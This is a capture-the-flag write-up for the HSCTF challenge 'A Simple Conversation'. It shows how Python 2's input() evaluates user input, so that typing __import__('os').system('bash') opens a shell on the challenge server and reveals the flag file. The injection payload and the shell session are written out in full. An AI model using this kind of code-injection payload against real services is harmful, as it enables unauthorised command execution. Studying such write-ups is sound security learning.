 # A Simple Conversation
Misc

## Challenge 

Written by: cppio

Someone on the internet wants to talk to you. Can you find out what they want?

nc misc.hsctf.com 9001

## Solution

Using python2 instead of python3

	~ $ nc misc.hsctf.com 9001
	Hello!
	Hey, can you help me out real quick.
	I need to know your age.
	What's your age?
	> k
	Traceback (most recent call last):
	  File "talk.py", line 18, in <module>
	    age = input("> ")
	  File "<string>", line 1, in <module>
	NameError: name 'k' is not defined

Import OS module is working

	~ $ nc misc.hsctf.com 9001
	Hello!
	Hey, can you help me out real quick.
	I need to know your age.
	What's your age?
	> __import__('os')    
	Wow!
	Sometimes I wish I was <module 'os' from '/usr/lib/python2.7/os.pyc'>
	Well, it was nice meeting you, <module 'os' from '/usr/lib/python2.7/os.pyc'>-year-old.
	Goodbye!

Use `os.system()` to spawn a shell

	~ $ nc misc.hsctf.com 9001
	Hello!
	Hey, can you help me out real quick.
	I need to know your age.
	What's your age?
	> __import__('os').system('bash')
	ls
		bin
		boot
		dev
		etc
		flag.txt
		home
		lib
		lib64
		media
		mnt
		opt
		proc
		root
		run
		sbin
		srv
		sys
		talk.py
		tmp
		usr
		var
	cat flag.txt
		hsctf{plz_u5e_pyth0n_3}

## Flag

	hsctf{plz_u5e_pyth0n_3}
